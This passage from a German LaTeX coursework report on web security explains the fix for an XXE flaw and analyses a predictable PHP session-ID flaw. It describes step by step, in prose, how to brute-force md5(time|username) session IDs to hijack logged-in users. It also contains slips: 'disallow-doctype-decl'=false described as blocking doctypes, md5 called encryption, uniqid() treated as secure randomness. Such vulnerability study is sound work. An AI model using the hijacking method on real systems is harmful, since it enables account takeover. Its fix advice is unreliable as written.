				at java.sql.DriverManager.getConnection(Unknown Source) \\
				at java.sql.DriverManager.getConnection(Unknown Source) \\
				at Login.main(Login.java:92) \\
wobei [CONTENT\_OF\_SENSITIVE\_DATA] dem Inhalt der externen Entität entspricht.
\end{itemize}


\subsubsection{Beschreibung d. korrigierten Version}
\noindent
Um diese Schwachstelle zu beheben war es lediglich notwendig zwei Features der DocumentBuilderFactory zu deaktivieren. Mittels 'external-general-entities'=false wird der Einsatz von externen Entitäten in XML Files deaktiviert und mittels 'disallow-doctype-decl'=false werden Doctype Deklarierungen verboten. 
In den Zeilen 52-53 erfolgen die entsprechen Aufrufe der Methode setFeatures der Klasse DocumentBuilderFactory.

\subsubsection{Recherche: Aktuelle Fälle}
\noindent	
\begin{itemize}
\item aktueller Fall: 'F5 BIG-IP XML External Entity Injection vulnerability'
\item Hintergrund, Auswirkung: \\
BIG-IP = Suite/Framework for Application Delievery Services entwickelt vom Unternehmen F5.\\
Auszug aus der Meldung des Herstellers: 'The BIG-IP configuration even allows access to the critical /etc/shadow file which contains the password hashes of users.' \\
Durch diese Schwachstelle können also sensitive Daten vom File-System des jeweiligen Servers, auf dem die BIG-IP Suite installiert ist, ausgelesen bzw. heruntergeladen werden. \\
Siehe auch den im Folgenden angeführten Link.
\item Referenzen: 
\subitem \href{ http://seclists.org/bugtraq/2013/Jan/92}{SecLists.org - F5 BIG-IP XML XXE Attack}
\subitem \href{https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing}{OWASP - XML XXE Vulnerability}
\end{itemize}

\subsection{app2}
\noindent

\subsubsection{Art}
\noindent
Weak HTTP Session ID / Session Prediction \\
Bei dieser Art der Attacke versucht ein Angreifer Http Session IDs zu 'erraten' um sich mit einer fremden Identität authentifizieren zu können. \\
Dabei hat der Angreifer meist Wissen über die Struktur bzw. den Aufbau der Session IDs, welche u.U sehr simpel ist (z.b.: SessionId = Geburtsdatum des Users + Nachname).
Um an dieses Wissen zu kommen analysiert der Angreifer ihm bekannte Session Ids ('legal' erhalten, durch Sniffing erhalten, ...) und interpretiert diese, um daraufhin den Prozess der ID-Generierung nachahmen zu können.

\subsubsection{Codezeile(n)/Stelle(n)}
\noindent
Klasse: functions.php, Methode make\_new\_session
\begin{itemize}  
\item 87: Hier wird die SessionId zusammengebaut. Sie besteht aus der aktuellen Serverzeit (in Unix-Time) und dem Usernamen, getrennt mittels einer Pipe ('|'). \\ 
Dieser String wird dann mittels md5 verschlüsselt und persistiert.
Durch die interne Struktur der (unverschlüsselten) SessionId kann diese vom Angreifer erraten werden (er kennt den Usernamen und die 'ungefähre' Serverzeit).
\end{itemize}

\subsubsection{Korrekturmöglichkeit(en)}
\noindent
Unter anderem:
\begin{itemize}
\item Stronger SessionIds: Durch Wahl einer randomisierten (und verschlüsselten) Zeichenkette wird es für einen Angreifer defacto unmöglich die Session Id zu erraten.
\item Weitere Empfehlungen, die das Problem nicht unbedingt beheben, jedoch darüber hinaus ratsam wären, umfassen: \\
\subitem Einsatz von SSL/Https
\subitem Speicherung der Session Ids mittels HTTP Cookies
\subitem zeitlich begrente Session Ids
\subitem  u.v.m.
\end{itemize}

\subsubsection{Exploit Vorgehensweise / Script}
\noindent
Siehe auch: app2\_exploit.py
\begin{itemize}
\item Zunächst wird ein Http Get Request abgesetzt um aus dem Response die aktuelle Unixtime (Serverzeit) und eine Liste der zuletzt angemeldeten User auszulesen. \\
Die Liste der letzten User gibt uns auch an vor wie vielen Minuten sich diese eingeloggt haben, daher wissen wir wann ihre SessionId erzeugt wurde. \\
Da wir die SessionId Erzeugung nur auf Minuten genau wissen, gibt es ausgehend von der aktuellen Unixtime minus der letzten Login Time 60 Möglichkeiten (=60 Sekunden) wann genau, also mit welcher Unixtime, die SessionId des Users erzeugt wurde.
\item Wir generieren daher pro bekanntem User und seiner LastLoginTime 60 mögliche SessionIds, bestehend aus md5(UnixTimeKandidat+'|'+UserName) = SessionIdKandidat
\item Nun probieren wir für jeden User seine SessionId Kandidaten solange durch, bis wir korrekte Id gefunden haben. \\
Dieser Schritt bedeutet also wieder ein Http Get Request, nur diesmal mit dem zusätzlichen Parameter s=SessionIdKandidat. \\
Ist der Kandidat erfolgreich so enthält der Response den Text 'you are: '+Username. So können wir Feststellen ob unser Angriff erfolgreich war.
\item Am Ende der Attacke haben wir für alle User, welche in den letzten 60 Minuten online waren, valide SessionIds gefunden.
\end{itemize}

\subsubsection{Beschreibung d. korrigierten Version}
\noindent
Um die Schwachstelle zu beheben generieren wir stärkere SessionIDs, welche von einem Angreifer nicht erraten bzw. berechnet werden können. \\
'Stärker' heißt in diesem Kontext, dass sie randomisiert, also möglichst zufällig sein sollten. \\
Der Aufwand einer eigenen Randomisierungslogik ist nicht empfehlenswert, stattdessen verwenden wir die in PHP bereits eingebaute Funktion uniqid(), welche u.a. genau für solche Szenarien gedacht ist. 	Mittels uniqid() erzeugen wir eine neue, zufällige Zeichenkette die anschließend noch md5-verschlüsselt wird und erhalten so unsere neue SessionId. \\
Zusätzlich könnte man md5 noch gegen ein stärkeres Verschlüsselungsverfahren auswechseln um die Sicherheit der IDs zu erhöhen.
Wir haben uns jedoch dagegen entschieden, da in diesem speziellen Fall md5 in Kombination mit uniqid() durchaus ausreichend sein sollte 
(und eine stärkere Verschlüsselung darüberhinaus auch Performancekosten verursacht).

\subsubsection{Recherche: Aktuelle Fälle}
\noindent	
\begin{itemize}
\item aktueller Fall: 'Zeacom Chat Server JSESSIONID weak SessionID Vulnerability'
\item Hintergrund, Auswirkung: \\
Hijacking von Chat Sessions der Zeacom web-chat application durch Brute-Force Methode (ähnlich unserem Fall).  
Ein Angreifer kann so an sensitive Daten kommen oder auch DOS Attacken durchführen.
\item Referenzen: 
\subitem \href{http://seclists.org/bugtraq/2011/May/137}{SecLists.org - Zeacom Chat Server Weak SessionId Vulnerability}
\subitem \href{https://www.owasp.org/index.php/Session_Prediction}{OWASP - Session Prediction}
\end{itemize}


\end{document}


